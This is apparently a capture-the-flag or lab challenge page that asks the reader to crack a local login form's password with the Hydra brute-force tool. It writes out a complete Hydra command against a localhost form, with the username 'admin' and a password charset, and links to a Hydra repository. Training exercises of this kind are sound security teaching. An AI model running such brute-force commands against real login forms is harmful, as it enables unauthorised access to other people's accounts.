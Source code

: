<h2>CHALLENGE 1 (MEDIUM):</h2>
<h3>Brute-force Attack - Cracking the password.</h3>

In this challenge you must crack the password of the login form using a brute force attack. The brute-force attack tool you must use is called "Hydra". 

A link to the tool with documentation will be available on the challenge website. 
https://github.com/scrolls5/Hydra

In the HTML code you can find the command to start the brute-force attack.
<code>hydra.exe -V -t 25 -f -l admin -x 4:6:a localhost http-post-form "/bruteforce2.php:username=test&password=^PASS^&submit=Login:Wrong Password"</code>

